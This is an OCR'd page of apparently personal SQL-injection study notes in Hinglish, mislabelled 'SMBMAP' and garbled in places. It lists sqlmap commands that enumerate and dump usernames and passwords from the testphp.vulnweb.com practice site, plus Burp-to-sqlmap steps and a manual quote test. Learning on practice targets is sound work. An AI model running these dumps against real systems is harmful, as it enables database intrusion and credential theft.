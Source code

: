 --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# SMBMAP Tool uses
1]
| command                                                                     |                                                command explain |
| --- | --- |
| sqlmap -u http://testphp.vulnweb.com/ --crawl=3   --technique="U"   --dbs    |   `//-u = enter doman,using lable 3 max 5 hota hai. , U means union aise hi buniion,blind.   ,—dbs means data base.`   |
| sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --technique="U" --dbs       .......| Find Database name |
| sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --technique="U" -D acuart --tables     .......| Find tables when i have database name |
|  sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --technique="U" -D acuart -T users --columns          .......| Find out coloum when i have table name. |
|  sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --technique="U" -D acuart -T users -C pass,uname --dump |           ......... Dump pass,uname |

2]
| Request capture in burpsuit and safe the request in txt formate in kali. |  |
| 1] hum  login page ka credencial fill ker ke burp ke request pe lege . |  |
| 2] use copy ker lege us request file ko aur  useka name vul-req dedege |  |
| gedit  vul_req |  |
| sqlmap -r vul_req -p uname --dbs | find database |
| sqlmap -r vul_req -p uname -D acuart --tables | find table  |
| sqlmap -r vul_req -p uname -D acuart -T users --coloumns | fine coloum |
| sqlmap -r vul_req -p uname -D acuart -T users -C uname,pass --dump | data dump |
|  |  |

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# sql injecsion  notes

| Direct url me change. |  |
| --- | --- |
| http://example.com/product.php?id=5                  ............| targer url |
| nahi diya rhe to find kerlo wyeback url or sqlmap ka use kerke. |  |
step 1 :- http://example.com/product.php?id=5'                ..........| Test for SQLi Vulnerability. |

step 2 :- see You have an error in your SQL syntax near… means           .......... | Site is vulnerable! |
